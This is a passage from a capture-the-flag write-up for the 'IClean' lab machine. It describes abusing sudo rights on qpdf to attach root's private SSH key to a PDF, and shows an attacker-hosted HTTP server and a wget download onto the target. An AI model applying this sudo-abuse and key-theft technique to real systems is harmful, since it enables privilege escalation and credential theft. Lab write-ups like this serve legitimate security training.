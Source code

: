 ![what is qpdf](/assets/images/IClean/what-is-qpdf.png)

I also have the version:

```bash
consuela@iclean:~$ /usr/bin/qpdf --version
qpdf version 10.6.3
Run qpdf --copyright to see copyright and license information.
```

There isn't a known vulnerability for this version. However, I can read its [documentation](https://qpdf.readthedocs.io/en/stable/) and see if I can find any functionality to abuse this sudo privilege as root. In [this section](https://qpdf.readthedocs.io/en/stable/cli.html#embedded-files-attachments) there are options to list, add or delete embedded files in pdfs, so I will use --add-attachment to add /root/.ssh/id_rsa to a dummy pdf. For that, I will use a http server to upload my pdf file to the machine:

**Attacker machine**:
```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

**IClean machine**:
```bash
consuela@iclean:~$ cd /tmp/
consuela@iclean:/tmp$ wget http://10.10.15.95/dummy.pdf
--2024-07-31 20:09:49--  http://10.10.15.95/dummy.pdf
Connecting to 10.10.15.95:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 13264 (13K) [application/pdf]
Saving to: ‘dummy.pdf’

dummy.pdf                                     100%[=================================================================================================>]  12.95K  --.-KB/s    in 0s      

2024-07-31 20:09:49 (190 MB/s) - ‘dummy.pdf’ saved [13264/13264]
```
